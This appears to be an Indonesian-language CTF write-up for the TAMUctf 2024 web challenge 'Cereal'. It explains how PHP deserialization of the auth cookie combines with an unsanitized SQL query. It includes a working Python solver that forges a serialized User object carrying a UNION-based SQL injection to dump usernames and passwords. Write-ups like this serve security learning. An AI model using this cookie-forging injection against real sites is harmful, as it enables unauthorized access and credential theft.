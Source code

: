 # Cereal Writeup - Web - tamuctf2024

Pada challenge ini terdapat kerentanan `PHP Deserialization`, dan kita bisa melakukan injeksi `SQLi` pada parameter id yang terdapat di cookie `session`, kita bisa memanfaatkan kerentanan tersebut untuk mendapatkan flag yang tersimpan di Database.

## Source Code
### Profile.php
```php
<?php
require_once('config.php');

// Check if logged in
if (!isset($_COOKIE['auth']) || empty($_COOKIE['auth'])) {
	header('Location: logout.php');
	exit;
}

$cookie = unserialize(base64_decode($_COOKIE['auth']));
$row = $cookie->sendProfile();

$username = $row[0];
$email = $row[1];
$cereal = $row[2];
$date = date('Y-m-d H:i:s', $row[3]);

?>
```

terlihat pada kode diatas, cookie di unserialize dan dikirimkan ke fungsi `sendProfile()`

### config.php
```php
<?php
class User {
  public $username = '';
	public $id = -1;
	
	protected $password = '';
	protected $profile;

	public function setPassword($pass) {
		$this->password = $pass;
	}

	public function sendProfile() {
		return $this->profile;
	}

	public function refresh() {
		// Database connection
		$conn = new PDO('sqlite:../important.db');
		$conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
		$query = "select username, email, favorite_cereal, creation_date from users where `id` = '" . $this->id . "' AND `username` = '" . $this->username . "'";
		$stmt = $conn->prepare($query);
		$stmt->execute();
		$row = $stmt->fetch();

		$this->profile = $row;
	}

	public function validate() {
		// Database connection
		$conn = new PDO('sqlite:../important.db');
		$conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
		$query = "select * from users where `username` = :username";
		$stmt = $conn->prepare($query);
		$stmt->bindParam(':username', $this->username);
		$stmt->execute();
		$row = $stmt->fetch();

		if (md5($row['password']) !== $this->password) {
			header('Location: logout.php');
			exit;
		}
	}

	public function __wakeup() {
		$this->validate();
		$this->refresh();
    	}
}

?>
```

Dari `config.php` kita mengetahui bahwa terdapat kerentanan SQLi pada fungsi `refresh`, yang mana `id` di masukan ke Query tanpa sanitasi, ini bisa kita manfaatkan dengan mengubah `id` yang terdapat di session sebelum di `unserialize` dan di `execute`.

Langkah langkah exploitasi:
1. Buat session cookie sesuai dengan data data yang diharapkan oleh source code
2. Masukan injeksi pada parameter `id` pada session cookie

## Solver Code
```python
import httpx
import asyncio
import base64
import urllib.parse

URL = 'http://localhost:8000'

class BaseAPI():
	def __init__(self,url=URL):
		self.c = httpx.AsyncClient(base_url=url)

	def login(self, username, password):
		return self.c.post('/authenticate.php',data={'username': username, 'password': password})

	def cookieProfile(self,cookie):
		return self.c.get('/profile.php',cookies=cookie)

class User:
    def __init__(self):
        self.username = "guest"
        self.password = "5f4dcc3b5aa765d61d8327deb882cf99"
        self.id = "' union select username,password,3,email from users;-- "
        # ' union select group_concat(username),group_concat(password),3,4 from users; --
        self.profile = "nothing"

    def serialize(self):
        # Mimic PHP serialization format for each field
        serialized_str = 'O:4:"User":4:{'
        serialized_str += 's:8:"username";s:{}:"{}";'.format(len(self.username), self.username)
        serialized_str += 's:8:"password";s:{}:"{}";'.format(len(self.password), self.password)
        serialized_str += 's:2:"id";s:{}:"{}";'.format(len(self.id), self.id)
        serialized_str += 's:7:"profile";s:{}:"{}";'.format(len(self.profile), self.profile)
        serialized_str += '}'
        return serialized_str

class API(BaseAPI):
	...

def setCookies():
	user = User()
	cookies = user.serialize()
	encoded_cookies = base64.b64encode(cookies.encode()).decode()
	return encoded_cookies

async def main():
	api = API()
	cookies = {'auth': setCookies()}
	profile = await api.cookieProfile(cookies)
	print(profile.text)


if __name__ == '__main__':
	asyncio.run(main())
```

Thankyou :))

